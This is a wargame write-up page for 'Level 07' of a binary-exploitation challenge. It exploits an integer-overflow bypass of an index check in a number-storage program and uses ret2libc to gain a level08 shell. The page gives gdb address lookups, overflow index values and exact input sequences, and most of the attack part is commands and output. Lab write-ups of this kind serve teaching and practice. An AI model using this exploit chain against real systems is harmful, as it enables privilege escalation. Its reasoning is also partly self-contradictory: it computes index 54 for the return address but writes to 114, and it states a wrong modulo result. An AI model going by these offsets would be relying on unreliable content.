 ```yaml
---
sidebar_position: 8
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 🧃 Level 07

<MissionObjective 
  level="Level 07"
  target="level08 privileges"
  method="Arbitrary memory write via integer overflow"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Integer Overflow & Arbitrary Memory Write"
  severity="high"
  description="The binary provides a number storage service with flawed index validation. While it restricts certain indices, unsigned integer overflow can be used to bypass these checks and write to arbitrary memory locations, including the return address on the stack."
  techniques={[
    "Integer Overflow",
    "Return Address Overwrite",
    "ret2libc Attack"
  ]}
/>

## Binary Analysis

The program presents a simple interactive CLI:

<CodeBlock 
  title="Program Interface"
  command="./level07"
  output={`----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------`}
/>

### Available Commands:
- `store`: Store a number at a given index
- `read`: Read the value at a given index  
- `quit`: Exit the program

## Vulnerability Discovery

<CodeBlock 
  title="Vulnerable Code Analysis"
  command="# In store_number() function:"
  output={`int data[100]; // global array

int store_number(int *data) {
    int number, index;

    printf(" Number: ");
    number = read_number();

    printf(" Index: ");
    index = read_number();

    if ((index % 3) == 0 || index < 0 || index > 99) {
        puts("*** ERROR! ***");
        puts(" This index is reserved for wil!");
        puts("*** ERROR! ***");
        return 1;
    }

    data[index] = number;
    return 0;
}`}
/>

**Key Vulnerability:** Even though index bounds are partially checked, we can bypass them via **unsigned integer overflow**.

## Memory Layout Analysis

<CodeBlock 
  title="Finding data array address"
  command="gdb ./level07"
  output={`(gdb) b read_number
(gdb) r
Input command: read

(gdb) x/x $ebp+8
0xffffd530: 0xffffd554`}
/>

**Data array location:** `0xffffd554`

<CodeBlock 
  title="Calculating EIP offset"
  command="# Memory layout calculation"
  output={`EIP address: 0xffffd62c
DATA address: 0xffffd554
Diff: 0xffffd62c - 0xffffd554 = 0xd8 = 216 bytes
216 / 4 = 54 (array index for EIP)`}
/>

So `data[54]` corresponds to the saved return address (EIP).

## ret2libc Preparation

<CodeBlock 
  title="Finding system() and '/bin/sh' addresses"
  command="gdb ./level07"
  output={`(gdb) info function system
=> system() = 0xf7e6aed0

(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
=> 0xf7f897ec`}
/>

**Addresses in decimal:**
- `system()`: `0xf7e6aed0` = **4159090384**
- `"/bin/sh"`: `0xf7f897ec` = **4160264172**

## Integer Overflow Bypass

Index 54 is forbidden because `54 % 3 == 0`. We use unsigned integer overflow:

<CodeBlock 
  title="Overflow calculation"
  command="# Bypass calculation"
  output={`To access index 54 via overflow:
Index = (UINT_MAX + 1) / 4 + 54 = 1073741882
1073741882 % 3 = 0 ❌ (still forbidden)

Try: (UINT_MAX + 1) / 4 + 54 + offset
1073741938 % 3 = 1 ✅ (allowed)

Index 1073741938 maps to data[114] in the array`}
/>

## Live Demonstration

<AsciinemaPlayer 
  src="https://asciinema.org/a/o7SGOz7EowLax8j889ehjHbho.js" 
  id="asciicast-o7SGOz7EowLax8j889ehjHbho" 
/>


## Step-by-Step Solution

<StepsList steps={[
  {
    title: "Launch the binary",
    description: "Start the number storage service.",
    command: "./level07",
    output: "Welcome to wil's crappy number storage service!"
  },
  {
    title: "Store system() address",
    description: "Overwrite the return address with system() using integer overflow.",
    command: "Input command: store\nNumber: 4159090384\nIndex: 1073741938",
    output: "Stored successfully"
  },
  {
    title: "Store '/bin/sh' argument",
    description: "Place the '/bin/sh' string as the first argument to system().",
    command: "Input command: store\nNumber: 4160264172\nIndex: 116",
    output: "Stored successfully"
  },
  {
    title: "Trigger the exploit",
    description: "Exit the program to execute our ret2libc chain.",
    command: "Input command: quit",
    output: "$ # Shell with level08 privileges"
  },
  {
    title: "Verify elevated privileges",
    description: "Confirm we have level08 access.",
    command: "whoami",
    output: "level08"
  }
]} />

## Key Takeaways

- **Integer overflow** can bypass index validation checks
- **Array bounds checking** must account for unsigned integer wraparound
- **ret2libc attacks** don't require shellcode injection
- **Memory layout analysis** is crucial for calculating correct offsets
- **GDB debugging** helps identify exact memory addresses at runtime

**Tools used:** `gdb`, memory layout analysis, integer overflow exploitation, ret2libc technique

:::warning Important Note
Memory addresses vary between sessions. Always use GDB to find the current addresses of `system()` and `"/bin/sh"` for your specific environment. The addresses shown here are examples from a specific debugging session.
::: 